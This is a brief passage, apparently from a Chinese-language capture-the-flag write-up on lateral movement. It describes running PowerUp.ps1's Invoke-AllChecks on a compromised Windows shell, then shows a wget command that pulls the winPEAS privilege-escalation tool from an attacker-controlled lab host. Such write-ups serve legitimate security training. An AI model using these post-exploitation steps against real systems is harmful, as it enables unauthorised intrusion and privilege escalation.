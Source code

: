 **![](img/f1ac1bc2110968d413678034b03a1496.png)**

## **横向运动**

**从在 shell 上运行 powershell.exe 命令开始，这很有效！**

**运行 powerup.ps1，然后运行 Invoke-AllChecks，没有获取任何信息。**

**然后我通过 */temp* 目录下的`wget`命令下载了 winpeas.exe。**

**`wget [http://10.10.14.42/privilege-escalation-awesome-scripts-suite-master/winPEAS/winPEASexe/winPEAS/bin/x64/Release/winPEAS.exe](http://10.10.14.42/privilege-escalation-awesome-scripts-suite-master/winPEAS/winPEASexe/winPEAS/bin/x64/Release/winPEAS.exe) -o winPEAS.exe`**
